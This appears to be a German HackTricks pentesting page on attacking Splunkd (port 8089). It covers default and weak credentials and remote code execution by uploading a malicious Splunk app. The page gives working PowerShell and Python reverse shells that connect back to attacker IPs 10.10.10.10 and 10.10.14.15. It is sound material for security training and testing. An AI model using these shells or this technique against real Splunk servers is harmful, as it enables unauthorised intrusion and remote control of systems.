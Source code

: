 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Grundinformationen**

* Log-Analyse-Tool, das für Datensammlung, Analyse und Visualisierung verwendet wird
* Häufig in der Sicherheitsüberwachung und Geschäftsanalyse eingesetzt
* Standardports:
* Webserver: 8000
* Splunkd-Dienst: 8089

### Schwachstellenvektoren:

1. Ausnutzung der kostenlosen Version

* Testversion wird nach 60 Tagen automatisch in die kostenlose Version umgewandelt
* Kostenlose Version hat keine Authentifizierung
* Potenzielles Sicherheitsrisiko, wenn sie nicht verwaltet wird
* Administratoren könnten die Sicherheitsimplikationen übersehen

2. Schwächen bei Anmeldeinformationen

* Ältere Versionen: Standardanmeldeinformationen `admin:changeme`
* Neuere Versionen: Anmeldeinformationen werden während der Installation festgelegt
* Potenzial für die Verwendung schwacher Passwörter (z. B. `admin`, `Welcome`, `Password123`)

3. Möglichkeiten zur Remote-Code-Ausführung

* Mehrere Methoden zur Codeausführung:
* Serverseitige Django-Anwendungen
* REST-Endpunkte
* Skriptbasierte Eingaben
* Alarmierungsskripte
* Plattformübergreifende Unterstützung (Windows/Linux)
* Skriptbasierte Eingaben können ausführen:
* Bash-Skripte
* PowerShell-Skripte
* Batch-Skripte

Wichtiges Ausnutzungspotenzial:

* Speicherung sensibler Daten
* Fehlende Authentifizierung in der kostenlosen Version
* Mehrere Vektoren für potenzielle Remote-Code-Ausführung
* Möglichkeit, skriptbasierte Eingaben für Systemkompromittierung zu nutzen

### Shodan

* `Splunk build`

## RCE

### Erstellen einer benutzerdefinierten Anwendung

Splunk bietet eine ausgeklügelte Methode zur Remote-Code-Ausführung durch die Bereitstellung benutzerdefinierter Anwendungen, die seine plattformübergreifenden Skriptingfähigkeiten nutzen. Die grundlegende Ausnutzungstechnik dreht sich um die Erstellung einer bösartigen Anwendung, die Reverse-Shells auf sowohl Windows- als auch Linux-Systemen ausführen kann.

Eine benutzerdefinierte Anwendung kann **Python, Batch, Bash oder PowerShell-Skripte** ausführen. Darüber hinaus **kommt Splunk mit installiertem Python**, sodass Sie sogar auf **Windows**-Systemen Python-Code ausführen können.

Sie können [**dieses**](https://github.com/0xjpuff/reverse_shell_splunk) Beispiel mit dem **`bin`** verwenden, das Beispiele für [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) und [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1) enthält. Oder Sie könnten Ihre eigene erstellen.

Der Ausnutzungsprozess folgt einer konsistenten Methodik über Plattformen hinweg:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Die kritische Konfigurationsdatei `inputs.conf` aktiviert das Skript durch:

* Festlegen von `disabled = 0`
* Konfigurieren eines 10-Sekunden-Ausführungsintervalls
* Definieren des Quelltyps des Skripts

Die Bereitstellung ist unkompliziert:

1. Erstellen Sie das bösartige Anwendungs-Paket
2. Richten Sie einen Listener (Netcat/socat) auf der angreifenden Maschine ein
3. Laden Sie die Anwendung über die Schnittstelle von Splunk hoch
4. Auslösen der automatischen Skriptausführung nach dem Hochladen

Beispiel für eine Windows PowerShell Reverse Shell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Beispiel für eine Linux Python Reverse Shell:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilegieneskalation

Auf der folgenden Seite finden Sie eine Erklärung, wie dieser Dienst missbraucht werden kann, um Privilegien zu eskalieren und Persistenz zu erlangen:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Referenzen

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
